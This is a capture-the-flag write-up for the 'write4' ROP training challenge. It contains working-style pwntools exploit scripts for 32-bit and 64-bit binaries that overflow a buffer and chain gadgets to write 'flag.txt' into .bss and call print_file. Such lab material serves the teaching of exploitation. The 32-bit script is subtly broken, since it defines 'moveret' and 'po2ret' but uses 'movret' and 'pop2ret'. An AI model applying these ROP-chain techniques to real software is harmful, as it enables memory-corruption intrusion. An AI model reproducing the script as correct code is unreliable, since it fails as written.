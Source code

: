 # Write 4

## 32 bit

As the text says there is no "cat flag.txt", but if you list all the function you
will find "print_file" a function that will print the content of a file passed
as parameter.

To pass the string "flag.txt" to the fnction "print_file" you need to save it
on the bss part of the ELF file. To save it there is a gadget that take 4 byte and
save it on an addres of your choise. Then you need to copy the 4 byte that you want
to write in the variables, there is a gadget olso for this.

```python
from pwn import *

elf = context.binary = ELF('write432')
context.log_level = 'debug'

# We get the length of our junk part of the payload
p = process(elf.path)
p.sendline(cyclic(200))
p.wait()
eip = p.corefile.eip
offset = cyclic_find(eip)
print(offset)

rop = ROP(elf)
print_file = p32(elf.symbols['print_file'])
# Address of gadget to save in memory
moveret = p32(0x08048543)
po2ret = p32(rop.find_gadget(['pop edi', 'pop ebp', 'ret'])[0])

payload = offset * b'A'

payload += pop2ret
payload += p32(elf.bss())
payload += b'flag'
payload += movret

payload += pop2ret
payload += p32(elf.bss(4))
payload += b'.txt'
payload += movret

payload += print_file
payload += b'BBBB'
payload += p32(elf.bss())

print(payload)

p = process(elf.path)
p.sendline(payload)
p.readall()
```

## 64 bit

This is the same as for the 32 bit.

As before we need to find a way to pass to the function "print_file" the string "flag.txt"
as parameter.

From radare2 we can read the usefull function wich is the same as for the 32bit,
as we know the register edi is the lower part of the rdi register.

```python
from pwn import *

elf = context.binary = ELF('write4')
context.log_level = 'debug'

# We get the length of our junk part of the payload
p = process(elf.path)
p.sendline(cyclic(200, n=8))
p.wait()
fault = p.corefile.fault_addr
offset = cyclic_find(fault, n=8)
print(offset)

rop = ROP(elf)
print_file = p64(elf.symbols['print_file'])
# Address of gadget to save in memory
# pop rdi; ret
pop_rdi = p64(0x0000000000400693)
# mov qword ptr [r14], r15 ; ret
movret = p64(0x0000000000400628)
# pop r14; pop r15; ret
pop2ret = p64(0x0000000000400690)

payload = offset * b'A'

payload += pop2ret
payload += p64(elf.bss())
payload += b'flag.txt'
payload += movret

payload += pop_rdi
payload += p64(elf.bss())
payload += print_file

print(payload)

p = process(elf.path)
p.sendline(payload)
p.readall()
```
